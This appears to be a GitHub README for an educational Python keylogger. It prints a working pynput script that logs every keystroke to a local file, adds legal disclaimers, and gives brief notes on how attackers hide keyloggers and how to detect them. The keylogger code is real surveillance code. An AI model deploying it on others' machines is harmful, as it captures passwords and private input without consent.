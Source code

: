# Python-Keylogger
This is a simple Python script that logs keyboard activity using the `pynput` library. It records keystrokes and writes them to a local text file (`keyfile.txt`). This tool is designed **solely for educational and ethical testing purposes**, such as understanding how keyloggers work and how to detect or prevent them.

DISCLAIMER

> **This project is intended strictly for educational use.**  
> Do **not** use this software on any system without **explicit written permission** from the owner.

 How It Works
- Listens to all keyboard input using the `pynput.keyboard` module.
- Logs printable characters to `keyfile.txt`.
- Records special keys like `Enter`, `Tab`, `Shift` as `[Key.enter]`, `[Key.shift]`, etc.
- Stops recording when the **Escape** key is pressed.
  
>**def key_pressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            logkey.write(key.char)
        except AttributeError:
            logkey.write(f'[{key}]')

def on_release(key):
    # Stop listener if Esc is pressed
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    with keyboard.Listener(on_press=key_pressed, on_release=on_release) as listener:
        listener.join()**

What makes keyloggers so dangerous
Keyloggers are majority of the time are hidden and passivly logging scripts, many attackers abuse this by implemting them into system startup and automated stricts. Usally through TaskSchedular.

 
How to Protect Against Keyloggers#
-Use up-to-date antivirus/anti-malware software
-Regularly audit running processes
-Monitor for unusual file changes 
-Educate users on suspicious behavior and phishing


This script is useful for:
-Learning how keyloggers operate
-Understanding attack vectors in endpoint security
-Practicing defensive detection and mitigation techniques




